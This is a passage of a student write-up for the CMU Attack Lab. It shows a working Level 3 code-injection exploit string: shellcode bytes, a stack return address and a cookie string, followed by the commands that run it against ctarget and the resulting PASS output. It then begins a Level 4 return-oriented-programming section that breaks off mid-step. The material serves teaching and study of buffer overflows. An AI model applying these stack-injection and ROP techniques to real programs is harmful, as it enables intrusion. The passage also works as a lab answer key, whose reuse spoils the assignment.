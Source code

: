 1. **To execute this code, we need to inject it into the buffer allocated by getbuf and modify the return address to point to the beginning of our injected code on the stack.(!!!!very difficult to understand, but very important!)**
2. Now we need to find the stack top of getbuf by using the gdb tool `run -q -i answer1.txt` and we can find the `%rsp` is `0x5561dc78`
3. so we need to put the return address of getbuf with `0x5561dc78` and put the touch3code in the getbuf input. and we also need to put the hex code of the string in the address of `0x5561dca8` (attention!The string is not stored using little-endian format),so the result should be:

```nasm
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

1. use `./hex2raw < exploit3.txt > answer3.txt`
2. use `./ctarget -i answer3.txt -q` to execute the program.
3. show the pass message

```nasm
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```

# Level4

- **Phase 4 Overview**: You will repeat the attack from Phase 2 on the RTARGET program using gadgets from your gadget farm.
- **Allowed Instructions**: You can use `movq`, `popq`, `ret`, and `nop` instructions, and only the first eight x86-64 registers (%rax–%rdi).
- **Gadget Sources**: All necessary gadgets can be found between the `start_farm` and `mid_farm` functions in the RTARGET code.
- **Minimal Gadget Requirement**: The attack can be performed using just two gadgets.
- **Data Management**: The use of `popq` means your exploit string will need to combine gadget addresses and the data being popped from the stack.
1. Use `objdump -d ctarget > rtarget.s` to get the code
2. Use search to find the `getbuf` function
3. However, because stack randomization is used, it's not feasible to carry out the attack in the same way as before.
4. so we if we want to use :
   